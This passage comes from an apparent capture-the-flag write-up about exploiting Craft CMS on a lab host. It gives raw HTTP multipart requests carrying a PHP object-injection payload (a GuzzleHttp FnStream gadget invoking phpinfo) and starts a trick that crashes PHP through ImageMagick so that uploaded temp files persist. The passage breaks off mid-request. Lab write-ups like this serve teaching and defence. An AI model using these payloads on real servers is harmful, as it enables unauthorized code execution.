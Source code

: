 #### File Upload

PHP [stores all files](https://stackoverflow.com/questions/3817360/where-does-
php-save-temporary-files-during-uploading) attached to a POST request in
`upload_tmp_dir` (typically `/tmp`) while it processes the request. However,
if I can crash PHP, then it is possible that it will miss that cleanup and
leave the temporary files behind.

To do that manually in Burp Repeater is a bit intimidating, but doable. I’ll
work in small steps. First, I’ll convert the POST request from a POST to form
data by updating the `Content-Type` header to define a boundary and moving
each argument into it’s own block (delimited by the `boundary` proceeded by
two dashes):

    
    
    POST /index.php HTTP/1.1
    Host: surveillance.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
    Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
    Content-Length: 442
    
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="action"
    
    conditions/render
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="test[userCondition]"
    
    craft\elements\conditions\users\UserCondition
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="config"
    
    {"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream","__construct()": [{"close":null}],"_fn_close":"phpinfo"}}
    --0xdf0xdf0xdf0xdf
    

Sending this still returns the `phpinfo` output. I’ll add another block with a
fake file:

    
    
    Content-Disposition: form-data; name="fakefile"; filename="0xdf.txt"
    Content-Type: text/plain
    
    This is a test
    --0xdf0xdf0xdf0xdf
    

Sending this still shows `phpinfo`, and the file is saved on disk for a
fraction of a second, but then deleted.

The trick is to have ImageMagick crash before the file is cleaned up. I’ll
replace the `GuzzleHttp` invocation with a reference to imagick and have it
try to open a non-MSL file as an MSL file:

    
    
    POST /index.php HTTP/1.1
    Host: surveillance.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
    Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
    Content-Length: 545
    